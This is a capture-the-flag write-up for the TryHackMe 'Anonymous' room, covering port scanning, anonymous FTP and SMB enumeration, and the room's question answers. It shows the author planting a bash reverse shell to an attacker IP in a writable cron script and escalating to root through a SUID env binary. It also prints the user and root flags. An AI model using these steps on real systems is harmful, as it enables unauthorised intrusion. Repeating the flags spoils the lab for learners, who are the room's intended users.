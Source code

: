 # Room: [Anonymous](https://tryhackme.com/room/anonymous) (*Not the hacking group*) :wink:


## Basic Enum

Nmap / rustcan

```shell
IP=VICTIM
rustscan -a $IP | tee rustscan.log
[...]
PORT    STATE SERVICE      REASON
21/tcp  open  ftp          syn-ack ttl 63
22/tcp  open  ssh          syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63

```

- Enumerate the machine.  How many ports are open?
**4**

- What service is running on port 21?
**ftp**

- What service is running on ports 139 and 445?
**smb**

```shell
smbclient -L $IP (without any password)

Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

```

- There's a share on the user's computer. What's it called?
**pics**

> HINT: What's that log file doing there?... nc won't work the way you'd expect it to

```shell
ftp $IP

Name: anonymous
Password: (without any password)
ftp> ls
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
ftp> cd scripts
ftp> ls
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1376 Mar 05 22:23 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.

ftp> mget *
```
Let's cat each files: 

```shell
cat clean.sh 
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

```shell
cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

```shell
cat to_do.txt        
I really need to disable the anonymous login...it's really not safe
```

## Basic shell

So let's have fun by uploading this reverse shell via ftp now:

```shell
cat clean.sh

#!/bin/bash
bash -i >& /dev/tcp/<AttackerIp>/4242 0>&1
```

And after few seconds we are in :

```shell
rlwrap nc -nlvp 4242
listening on [any] 4242
namelessone@anonymous:~$ 
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
ls
pics  user.txt
cat user.txt
90d6f992585815ff991e68748c414740
namelessone@anonymous:~$ 

```

- usert.txt: **90d6f992585815ff991e68748c414740**

> HINT: This may require you to do some outside research

Cool ! So as usual in this case, [gtfobins](https://gtfobins.github.io/) comes in :point_left:

```shell
find / -perm -u=s 2>/dev/null
[...]
/usr/bin/env
```

So let's try this: [gtfobins break out from restricted environments](https://gtfobins.github.io/gtfobins/env/#shell)

```shell
env /bin/bash -p
bash-4.4# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
cat /root/root.txt
4d9<Redacted>363
bash-4.4# 

```

Houra :partying_face:

<details>
  <summary>Click to reveal the root flag!</summary>
  
  ```bash
  cat /root/root.txt
  4d930091c31a622a7ed10f27999af363
  ```
</details>
 
